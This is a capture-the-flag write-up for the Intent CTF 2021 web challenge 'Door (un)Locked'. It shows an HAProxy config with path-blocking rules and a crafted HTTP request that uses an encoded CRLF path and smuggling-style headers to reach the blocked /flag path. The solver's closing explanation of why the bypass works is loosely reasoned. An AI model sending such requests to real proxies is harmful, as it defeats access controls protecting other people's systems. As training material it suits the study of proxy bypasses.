 # Intent CTF 2021 - Writeups - Door (un)Locked

Category: Web, Points: 100

![ctf.JPG](images/ctf.JPG)

And attached file [ha.cfg](./ha.cfg)

# Door (un)Locked  - Solution

Let's browse to the web page from challenge description [http://door-unlocked.chal.intentsummit.org:8000/](http://door-unlocked.chal.intentsummit.org:8000/):

![webpage.JPG](images/webpage.JPG)

By observing the attached file [ha.cfg](./ha.cfg) we get:
```console
┌─[evyatar9@parrot]─[/intent_ctf/web/door_unlocked]
└──╼ $ cat ha.cfg
global
    daemon
defaults  
    mode    http
    timeout  client  50000
    timeout  server  50000
    timeout  connect 50000
frontend web 
    bind *:8000  
    http-request deny if { path_beg /flag }
    http-request deny if { path,url_dec -m reg ^.*/?flag/?.*$ }
    default_backend websrvs
backend websrvs 
    http-reuse always
    server srv1 flask:5000

```

As we can see, We are unable to access the path that includes the ```flag```.

This is a [HAProxy](http://www.haproxy.org/) configuration file.

To bypass the ```http-request deny``` we can use [HTTP request smugglingattack](https://portswigger.net/web-security/request-smuggling).

You can read about this attack also here: [https://gist.github.com/ndavison/4c69a2c164b2125cd6685b7d5a3c135b](https://gist.github.com/ndavison/4c69a2c164b2125cd6685b7d5a3c135b).

So we can use the [CRLF Injection request smuggling attack](https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a) by sending the following request:
```http
GET /%0d%0a/../flag HTTP/1.1
Host: door-unlocked.chal.intentsummit.org:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Content-Length: 540
Transfer-Encoding: chunked
Connection: keep-alive
X-Forwarded-For: 127.0.0.1
Upgrade-Insecure-Requests: 1

```

And we get the flag:
```http
HTTP/1.1 200 OK
server: nginx/1.21.4
date: Sat, 20 Nov 2021 18:09:16 GMT
content-type: text/html
content-length: 29
last-modified: Fri, 12 Nov 2021 20:51:37 GMT
etag: "618ed3d9-1d"
accept-ranges: bytes

INTENT{Smuggl3_w1th_H4_Pr0xy}
```

```INTENT{Smuggl3_w1th_H4_Pr0xy}```.

The reason that it works is the ```HAProxy``` split the request into two different requests, one is ```/%0d%0a``` and the second one ```../flag```, Because there is no rule about path that start with ```/```  which is URL decode of ```/%0d%0a```.